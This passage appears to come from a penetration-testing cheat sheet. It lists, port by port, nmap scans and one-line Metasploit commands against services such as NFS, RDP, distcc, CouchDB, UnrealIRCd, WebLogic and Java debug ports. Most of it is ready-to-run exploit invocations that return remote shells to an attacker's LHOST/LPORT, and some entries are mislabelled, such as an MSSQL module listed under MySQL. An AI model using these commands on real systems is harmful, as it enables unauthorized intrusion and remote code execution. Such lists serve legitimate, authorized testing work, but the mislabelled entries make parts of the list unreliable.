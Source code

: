         - `nmap -A -sV -Pn -v --script-timeout 90 --script=ms-sql*`
    - 2049/nfs:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=nfs*`
        - `rpcinfo -p $TARGET`
        - `showmount -e $TARGET`
        - `smbclient -L $TARGET -U " "%" "` # checking NULL share
    - 2181/?:
        - `stat | nc $TARGET 2181` # zookeeper RCE exploit
    - 3306/mysql:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=mysql*`
        - `msfconsole -q -x "use auxiliary/scanner/mssql/mssql_ping; setg RHOSTS "$TARGET"; run; back; exit;"` # ping mysql
        - `nmap -A -p 3310 -Pn -sV  -v --script-timeout 90 --script=clamav-exec`
    - 3310/?:
        - `nmap -A -p 3310 -Pn -sV  -v --script-timeout 90 --script=clamav-exec`
    - 3128/?:
        - `nmap -A -p 3128 -Pn -sV  -v --script-timeout 90 --script=*proxy*`
    - 3389/rdp:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=rdp-*`
        - `msfconsole -q -x "use auxiliary/scanner/rdp/ms12_020_check; setg RHOSTS "$TARGET"; run; exit;"`
        - `msfconsole -q -x "use scanner/rdp/cve_2019_0708_bluekeep; setg RHOSTS "$TARGET"; run; exit;"`
        - `rdesktop $TARGET &`
    - 3632/distcc:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=distcc-*`
        - `msfconsole -q -x "setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; use unix/misc/distcc_exec; run; exit;"`
    - 5432/pgsql:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=pgsql-brute`
        - `msfconsole -q -x "use auxiliary/scanner/postgres/postgres_login; setg RHOSTS "$TARGET"; run; exit;"`
    - 5555/adb:
        - `adb connect $TARGET:5555`
        - `adb shell pm list packages`
    - 5800/vnc:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=vnc*`
    - 5900/vnc:
        - `nmap -A -sV  -v --script-timeout 90 --script=vnc*`
        - `msfconsole -q -x "use auxiliary/scanner/vnc/vnc_none_auth; setg RHOSTS \"$TARGET\"; run; back; exit;"` # None auth
    - 5984/couchdb:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=couchdb*`
        - `msfconsole -q -x "use auxiliary/scanner/couchdb/couchdb_enum; set RHOST "$TARGET"; run; exit;"`
        - `msfconsole -q -x "use exploit/linux/http/apache_couchdb_cmd_exec; set RHOSTS "$TARGET"; set RPORT 5984; setg LHOST $MSF_LHOST; setg $MSF_LPORT; run; exit;"`
    - 6000/x11:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=x11`
        - `msfconsole -q -x "use auxiliary/scanner/x11/open_x11; set RHOSTS "$TARGET"; exploit;"`
    - 6667/irc:
        - `nmap -A -sV -Pn -v --script-timeout 90 --script=irc*`
        - `msfconsole -q -x "use unix/irc/unreal_ircd_3281_backdoor; setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; exit;"`
    - 7001/weblogic:
        - `nmap -sV -p 7001 -v --script-timeout 90 --script=weblogic-t3-info.nse`
        - `msfconsole -q -x "use multi/http/oracle_weblogic_wsat_deserialization_rce; setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; set SSL true; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; exit;"`
        - `msfconsole -q -x "use exploit/linux/misc/jenkins_java_deserialize; setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; setg RPORT 7001; set SSL true; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; exit;"`
    - 8000/jdwp:
        - `msfconsole -q -x "use exploit/multi/misc/java_jdwp_debugger; setg RHOSTS "$TARGET"; set RPORT 8000; set SSL false; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; exit;"`
    - 8001/rmi:
        - `amap $TARGET 8001 -A`
        - `nmap -A -sV -Pn -p 8001 -v --script-timeout 90 --script=rmi-*`